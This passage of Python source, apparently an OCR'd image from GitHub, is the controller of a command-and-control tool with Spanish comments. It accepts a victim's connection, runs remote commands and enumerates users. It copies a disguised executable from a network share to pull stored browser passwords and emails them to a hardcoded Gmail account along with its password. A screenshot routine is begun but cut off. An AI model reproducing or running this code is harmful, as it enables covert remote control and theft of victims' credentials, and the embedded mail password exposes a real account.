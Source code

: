 ```python

        print("\n" + Fore.YELLOW + "[+] " + Fore.WHITE + "Listening for incoming connections...")

        # Aceptar conexión del cliente
        self.client_socket, client_address = server_socket.accept()

        print(Fore.YELLOW + "\n[+] " + Fore.WHITE + "Connection established by: " + Fore.GREEN + str(client_address) + Fore.WHITE + "\n\n")





    # Método para ejecutar comandos en el sistema remoto
    def remote_execute(self, command):
        self.client_socket.send(command.encode())
        return self.client_socket.recv(8192).decode()

    # Obtener lista de usuarios del sistema y enviar por correo
    def get_users(self):
        self.client_socket.send(b"net user")
        output_command = self.client_socket.recv(2048).decode()

        # Enviar los resultados por correo
        self.send_email(
            "Users Report - C2",
            output_command,
            "nockeylogger@gmail.com",
            ["nockeylogger@gmail.com"],
            "ezro xvah ctgy qhlt"  # Contraseña del correo
        )

    # Mostrar el panel de ayuda
    def show_help(self):
        print("\n")
        for key, value in self.options.items():
            print(f"{key} - {value}")
        print("\n")

    # Obtener contraseñas almacenadas en navegadores y enviarlas por correo
    def get_browser(self):
        self.remote_execute("copy \\\\192.168.1.164\\share\\google_chrome.exe %TEMP%")
        password=self.remote_execute("%TEMP%\\google_chrome.exe")
        self.send_email(
            "Google Chrome Stored Passwords - C2",
            password,
            "nockeylogger@gmail.com",
            ["nockeylogger@gmail.com"],
            "ezro xvah ctgy qhlt"  # Contraseña del correo
        )

        self.remote_execute("del %TEMP%\\google_chrome.exe")


    # Tomar una captura de pantalla y guardarla
    def get_screenshot(self,command):
        self.remote_execute("copy \\\\192.168.1.164\\share\\screenshot.ps1 %TEMP%")
        user=self.remote_execute("whoami").split("\\")[-1]
        self.remote_execute("cd ..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..")
        self.remote_execute("cd Users")
        self.remote_execute(f"cd {user}")
        self.remote_execute("cd AppData")
```
